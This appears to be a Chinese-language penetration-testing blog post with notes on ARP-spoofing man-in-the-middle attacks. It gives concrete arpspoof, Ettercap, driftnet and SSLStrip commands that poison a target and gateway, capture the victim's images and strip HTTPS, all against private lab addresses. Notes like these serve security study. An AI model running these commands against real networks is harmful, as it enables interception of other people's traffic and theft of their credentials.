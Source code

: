 ```yaml
---
title: 中间人攻击
date: 2024-01-13 20:30:03
tags: 渗透测试
mathjax: true
---
```


# 中间人攻击-ARP欺骗

## arpspoof

语法格式：

```bash
arpspoof [options] host
    #-i interface 指定接口
    #-t target 指定ARP欺骗的目标
    #-r 双向欺骗 与-t一起使用
    #host 指定拦截包的主机 通常网关
```

开启路由转发：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
cat /proc/sys/net/ipv4/ip_forward #输出1时成功开启
```

查看攻击主机和目标主机ARP缓存表，得到网关信息：

```bash
arp
```

举例：攻击主机IP为192.168.29.134，MAC为00:0c:29:79:95:9e；目标主机IP为192.168.29.134，MAC为00:0c:29:6c:5d:69；网关IP为192.168.29.2，MAC为00:50:56:f1:40:cb。

分别对目标主机和网关实施ARP攻击：

```bash
arpspoof -i eth0 -t 192.168.29.135 192.168.29.2
arpspoof -i eth0 -t 192.168.29.2 192.168.29.135
```

也可以用一个命令完成：

```bash
arpspoof -i eth0 -t 192.168.29.135 -r 192.168.29.2
```

## Ettercap

过时了...玩玩可以，实战用Bettercap。

启动图形界面：

```bash
ettercap -G
```

先Unified sniffing，再Scan for hosts，打开Hosts list查看主机列表，选中两个主机分别Add to Target1、Add to Target2，选择Start sniffing。

启动ARP注入攻击选择ARP poisoning，勾选Sniff remote connections复选框。

停止需要Stop sniffing和Stop mitm attack(s)。

下面介绍命令行用法：

```bash
ettercap [options] [target1] [target2]
    #-i 选择网络接口 默认第一个eth0
    #-M --mitm <METHOD:ARGS> 中间人攻击 remote双向 oneway单向
    #-T --text 使用文本模式
    #-q --quiet 不显示包内容
    #-P <plugin> 加载的插件
```

对目标主机192.168.29.136实施中间人攻击：

```bash
ettercap -Tq -M arp:remote /192.168.29.136// /192.168.29.2//
```

当嗅探到数据包时输出。

### Wireshark

略。

### driftnet

实施中间人攻击后捕获图片：

```bash
driftnet [options]
    #-b 捕获到图片时发出嘟嘟声
    #-i interface 指定监听接口
    #-f file 读取指定pcap包中的图片
    #-a 后台模式 捕获的图片保存到目录中 屏幕不显示
    #-m number 指定保存图片的数目
    #-d directory 保存捕获到的图片的临时目录 退出后将被删除
    #-x prefix 指定保存的前缀名 默认driftnet-
```

ettercap实施中间人攻击：

```bash
ettercap -Tq -M arp:remote /192.168.29.135// /192.168.29.2//
```

driftnet开始监听：

```bash
driftnet -i eth0 -d /root/image
```

## SSLStrip

HTTP数据可直接监听，HTTPS需要先解密。

开启路由转发：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

将所有HTTP数据导入到10000端口：

```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```

使SSLStrip监听10000端口，获取信息：

```bash
sslstrip -a -l 10000
```

当前目录下会创建一个日志文件，监控它：

```bash
tail -f sslstrip.log
```

中间可能混杂着python语法报错，不用理会。

再进行ARP欺骗攻击：

```bash
ettercap -Tq -M arp:remote /192.168.29.135// /192.168.29.2//
```

## Xplico

捕获到数据包后，对数据进行快速分析。

启动：

```bash
service xplico start
service apache2 start
netstat -pantul | grep 9876 #当apache2在监听时启动成功
```

访问http://IP:9876/，默认用户名密码都是xplico。

不知道啥原因打不开登录界面，摆烂了...
